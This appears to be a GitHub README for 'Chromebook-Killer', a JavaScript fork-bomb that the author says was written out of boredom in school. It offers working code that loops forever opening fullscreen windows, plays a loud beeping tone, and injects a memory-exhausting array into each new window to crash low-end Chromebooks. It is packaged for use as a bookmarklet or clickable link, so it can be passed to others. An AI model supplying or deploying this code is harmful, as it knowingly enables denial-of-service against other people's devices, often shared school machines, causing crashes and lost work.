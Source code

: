 # 🔥 Chromebook-Killer
*"I was bored in school. Nothing new there."*

The code below is a a modified forkbomb that works in HTML and JavaScript. Keep in mind that this is targeted towards more cheap, low end Chromebooks, but I havent tested it on more powerful devices.

#### 🚀 Features
* Lags the Chromebook by spamming new browser windows.
* Plays a loud beeping noise until chromebook crashes (scary ;-;).
* On each new window it creates, it adds an array that will crash that new window.
* Can be used as a bookmarklet or clickable link.

#### 💾 Code
```js
for (;;) {
  var a=Math.floor(10000*Math.random()+1),
  b=window.open('_blank','Lag'+a,`height=${screen.height},width=${screen.width}`);
  au=new AudioContext(); v=au.createOscillator(); u=au.createGain(); v.connect(u); v.frequency.value=130; v.type="square"; u.connect(au.destination); u.gain.value=100*0.01; v.start(au.currentTime); v.stop(au.currentTime+300*0.001);
  b.document.body.innerHTML='<script>[...Array(2**32-1)]</script>'
}
```
